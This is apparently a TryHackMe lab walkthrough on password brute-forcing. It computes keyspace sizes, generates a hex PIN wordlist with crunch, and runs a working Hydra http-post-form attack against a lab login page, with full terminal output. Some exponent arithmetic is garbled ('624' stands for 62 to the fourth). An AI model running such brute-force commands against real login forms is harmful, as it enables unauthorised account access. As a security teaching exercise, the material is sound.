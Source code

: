 	Topic: Brute-forcing
	Name: Hydra is coming to town

### Counting the Passwords

Let’s consider an imaginary scenario where the password is exactly four characters, and each character can be:

- A digit: We have 10 digits (0 to 9)
- An uppercase English letter: We have 26 letters (A to Z)
- A lowercase English letter: We have 26 letters (a to z)

Therefore, each character can be one of 62 different choices. Consequently, if the password is four characters, we can make 62×62×62×62 = 624 = 14,776,336 different passwords.

To make the password even more complex, we can use symbols, adding more than 30 characters to our set of choices.

![Table showing the number of possible passwords when using 4, 6, 8, 10, 12, 14, and 16 characters. The characters are limited to uppercase, lowercase, and digits.](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/feccfe2c7f1243aba09b07381c1c5261.svg)

### How Long Does It Take To Brute Force the Password

14 million is a huge number, but we can use a computer system to try out all the possible password combinations, i.e., brute force the password. If trying a password takes 0.001 seconds due to system throttling (i.e., we can only try 1,000 passwords per second), finding the password will only take up to four hours.

If you are curious about the maths, 624×0.001 = 14, 776 _seconds_ is the number of seconds necessary to try out all the passwords. We can find the number of hours needed to try out all the passwords by dividing by 3,600 (1 hour = 3,600 seconds): 14,776/3,600 = 4.1 _hours_.

In reality, the password can be closer to the beginning of the list or closer to the end. Therefore, on average, we can expect to find the password in around two hours, i.e., 4.1/2 = 2.05 _hours_. Hence, a four-character password is generally considered insecure.

We should note that in this hypothetical example, we are assuming that we can try 1,000 passwords every second. Few systems would let us go this fast. After a few incorrect attempts, most would lock us out or impose frustratingly long waiting periods. On the other hand, with the password hash, we can try passwords offline. In this case, we would only be limited by how fast our computer is.

We can make passwords more secure by increasing the password complexity. This can be achieved by specifying a minimum password length and character variety. For example, the character variety might require at least one uppercase letter, one lowercase letter, one digit, and one symbol.

![Hacker using a hand-held computer to  attack a door PIN code reader](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/c8bf82accc227de107ecf5a79da1f992.svg)

### Generating the Password List

The numeric keypad shows 16 characters, 0 to 9 and A to F, i.e., the hexadecimal digits. We need to prepare a list of all the PIN codes that match this criteria. We will use Crunch, a tool that generates a list of all possible password combinations based on given criteria. We need to issue the following command:

`crunch 3 3 0123456789ABCDEF -o 3digits.txt`

The command above specifies the following:

- `3` the first number is the minimum length of the generated password
- `3` the second number is the maximum length of the generated password
- `0123456789ABCDEF` is the character set to use to generate the passwords
- `-o 3digits.txt` saves the output to the `3digits.txt` file

To prepare our list, run the above command on the AttackBox’s terminal.

AttackBox Terminal:
```shell-session
root@AttackBox# crunch 3 3 0123456789ABCDEF -o 3digits.txt
Crunch will now generate the following amount of data: 16384 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 4096
crunch: 100% completed generating output
```

After executing the command above, we will have `3digits.txt` ready to brute force the website.

### Using the Password List

Manually trying out PIN codes is a very daunting task. Luckily, we can use an automated tool to try our generated digit combinations. One of the most solid tools for trying passwords is Hydra.

Before we start, we need to view the page’s HTML code. We can do that by right-clicking on the page and selecting “View Page Source”. You will notice that:

1. The method is `post`
2. The URL is `http://10.10.103.85:8000/login.php`
3. The PIN code value is sent with the name `pin`

![The HTML code related to the PIN code form.](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/c55803e3eccf061b8beeae6268b9dae1.png)  

In other words, the main login page http://10.10.103.85:8000/pin.php receives the input from the user and sends it to `/login.php` using the name `pin`.

These three pieces of information, `post`, `/login.php`, and `pin`, are necessary to set the arguments for Hydra.

We will use `hydra` to test every possible password that can be put into the system. The command to brute force the above form is:

`hydra -l '' -P 3digits.txt -f -v 10.10.103.85 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000`

The command above will try one password after another in the `3digits.txt` file. It specifies the following:

- `-l ''` indicates that the login name is blank as the security lock only requires a password
- `-P 3digits.txt` specifies the password file to use
- `-f` stops Hydra after finding a working password
- `-v` provides verbose output and is helpful for catching errors
- `10.10.103.85` is the IP address of the target
- `http-post-form` specifies the HTTP method to use
- `"/login.php:pin=^PASS^:Access denied"` has three parts separated by `:`
    - `/login.php` is the page where the PIN code is submitted
    - `pin=^PASS^` will replace `^PASS^` with values from the password list
    - `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”
- `-s 8000` indicates the port number on the target

It’s time to run `hydra` and discover the password. Please note that in this case, we expect `hydra` to take three minutes to find the password. Below is an example of running the command above:

AttackBox Terminal:
```shell-session
root@AttackBox# hydra -l '' -P 3digits.txt -f -v 10.10.103.85 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-19 17:38:42
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1109 login tries (l:1/p:1109), ~70 tries per task
[DATA] attacking http-post-form://10.10.103.85:8000/login.php:pin=^PASS^:Access denied
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[...]
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[8000][http-post-form] host: MACHINE_IP   password: [redacted]
[STATUS] attack finished for MACHINE_IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-19 17:39:24
```

The command above shows that `hydra` has successfully found a working password. On the AttackBox, running the above command should finish within three minutes.